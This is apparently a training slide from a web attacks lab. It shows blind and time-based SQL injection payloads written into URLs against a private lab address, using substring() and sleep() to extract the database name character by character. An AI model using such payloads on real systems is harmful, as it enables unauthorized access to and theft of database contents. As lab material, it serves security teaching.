

# Web attacks lab
8-Blind SQL:
http://192.168.67.128/compiler/sql/sql2.php?id=1
http://192.168.67.128/compiler/sql/sql2.php?id=1+and+1=if(substring(database(),2,1)='t',1,0)

9-Timed SQL:
http://192.168.67.128/compiler/sql/sql3.php?id=1
http://192.168.67.128/compiler/sql/id.php?id=1+and+1=if(substring(database(),2,1)='t',sleep(10),0)